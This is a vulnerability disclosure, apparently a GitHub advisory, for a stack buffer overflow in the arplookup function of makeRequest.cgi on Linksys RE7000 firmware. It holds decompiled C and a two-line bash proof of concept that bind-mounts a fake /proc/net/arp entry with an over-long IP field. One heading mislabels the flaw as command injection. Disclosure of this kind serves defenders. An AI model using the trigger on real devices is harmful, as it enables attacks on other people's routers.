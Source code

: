 # Buffer Overflow Vulnerability in `/proc/net/arp`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Linksys RE7000 Router                                        |
| Firmware Version     | **FW_v2.0.15_211230_1012**                                   |
| Vulnerability Type   | **Stack-Based Buffer Overflow**                              |
| Vulnerable Component | `makeRequest.cgi` (function `arplookup`, buffers `v6` & `v7`) |
| Prerequisites        | Requires control over `/proc/net/arp` content or local filesystem write permissions (local exploitation only) |

2. Exploitation Path

```c
int __fastcall arplookup(const char *a1, char *a2)
{
  FILE *v4; // $s1
  int result; // $v0
  char v6[12]; // [sp+18h] [-124h] BYREF
  char v7[20]; // [sp+24h] [-118h] BYREF
  char v8[260]; // [sp+38h] [-104h] BYREF

  v4 = fopen("/proc/net/arp", "r");
  if ( v4 )
  {
    strcpy(a2, "00:00:00:00:00:00");
    while ( fgets(v8, 256, v4) )
    {
      sscanf(v8, "%16s %*s %*s %18s %*s %*s", v6, v7);
      ...
}
```

3. **Vulnerable Binaries:** `makeRequest.cgi`.
4. 0-Day Command Injection Exploitation Path: In the `makeRequest.cgi` file, at line 13, `fgets(v8, 256, v4)` reads data from `/proc/net/arp`. At line 15, `sscanf(v8, "%16s %*s %*s %18s %*s %*s", v6, v7)` parses the data. The buffer `v6` is only 12 bytes in size; if the IP field in the ARP table exceeds 11 characters (e.g., `"192.168.100.200"`, length 15), it results in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```bash
echo -e "192.168.100.200 0x1 0x2 00:11:22:33:44:55 0x0 0x0" > /tmp/fake_arp
mount --bind /tmp/fake_arp /proc/net/arp
```